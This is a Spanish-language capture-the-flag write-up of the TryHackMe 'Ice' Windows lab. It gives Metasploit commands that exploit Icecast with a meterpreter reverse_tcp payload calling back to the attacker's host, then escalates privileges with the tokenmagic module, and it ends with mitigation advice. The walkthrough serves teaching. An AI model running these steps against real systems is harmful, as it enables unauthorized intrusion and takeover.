# Ice - Writeup

| Plataforma | S.O. | Dificultad | IP Objetivo | Temas Clave |
| :--- | :--- | :--- | :--- | :--- |
| TryHackMe | Windows | Fácil | `10.128.187.218` | Icecast (CVE-2017-7659), Local Exploit Suggester, Tokenmagic |

## Reconocimiento y Enumeración

### Ping y escaneo de puertos

```bash
ping 10.128.187.218
```



Se confirma que la máquina es Windows (TTL=126).

```bash
nmap -sC -sV -p- 10.128.187.218
```



## Análisis de Vulnerabilidades

### Detección de vulnerabilidad Icecast

Se usa searchsploit para buscar vulnerabilidades:

```bash
searchsploit icecast
```



Se encuentra la vulnerabilidad CVE-2017-7659.

## Explotación

### Explotación con Metasploit

Se inicia Metasploit y se busca el exploit:

```bash
msfconsole
search icecast
```



Se usa el exploit:

```bash
use exploit/multi/http/icecast_header
```

Después de seleccionar el exploit, debes configurar los parámetros necesarios, como la dirección IP de la máquina objetivo y el payload que deseas utilizar. Puedes configurar estos parámetros con los siguientes comandos:

```bash
set RHOSTS 10.128.187.218
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.151.119
set LPORT 4444
```



Finalmente, puedes ejecutar el exploit con el comando `exploit` o `run`. Si el exploit es exitoso, deberías obtener una sesión de meterpreter en la máquina objetivo, lo que te permitirá interactuar con ella y realizar acciones adicionales.

```bash
exploit
```



Una vez que tienes acceso a la máquina objetivo, puedes usar los comandos de meterpreter para explorar el sistema, obtener información adicional, y realizar acciones como descargar archivos, ejecutar comandos, etc. Por ejemplo, puedes usar el comando `sysinfo` para obtener información sobre el sistema operativo y la arquitectura de la máquina objetivo:

```bash
sysinfo
```



```bash
getuid
```



En este caso, vemos que el usuario actual es Dark-PC/Dark, lo que indica que hemos obtenido acceso a la máquina objetivo con privilegios de usuario. A partir de aquí, puedes continuar explorando el sistema y buscando formas de escalar privilegios para obtener acceso completo a la máquina.

## Post-Explotación y Escalada de Privilegios

### Escalada de privilegios

Ahora con el comando

```bash
run post/multi/recon/local_exploit_suggester
```

Podemos obtener una lista de exploits locales que podrían ser utilizados para escalar privilegios en la máquina objetivo. Este comando analiza el sistema y sugiere posibles vulnerabilidades que podrían ser explotadas para obtener acceso completo a la máquina.



en este caso usaremos:

```bash
background

use exploit/windows/local/tokenmagic
set SESSION 1
set LHOST 192.168.151.119
```



Con esto, hemos configurado el exploit local para intentar escalar privilegios en la máquina objetivo. El exploit `tokenmagic` es una técnica que permite a un atacante obtener acceso a tokens de seguridad de otros procesos en el sistema, lo que puede permitirle escalar privilegios y obtener acceso completo a la máquina.

Finalmente, ejecutamos el exploit con el comando `exploit` o `run` para intentar escalar privilegios en la máquina objetivo:

```bash
exploit
```



ahora con el comando `getuid` podemos verificar si hemos escalado privilegios correctamente:

```bash
getuid
```



## Mitigación y Recomendaciones

1. **Actualizar Software Crítico**: Actualizar el servicio de streaming Icecast a una versión superior a la 2.4.4 para mitigar la vulnerabilidad de desbordamiento de búfer en las cabeceras HTTP (CVE-2017-7659).
2. **Ejecución con Bajos Privilegios**: Configurar el servicio Icecast para que se ejecute bajo una cuenta de usuario sin privilegios administrativos (cuenta de servicio dedicada), limitando el impacto en caso de compromiso del servicio.
3. **Parches de Elevación de Privilegios**: Mantener el sistema operativo Windows actualizado para parchear los exploits de escalada de privilegios basados en tokens de seguridad (como los abusados por `tokenmagic`).

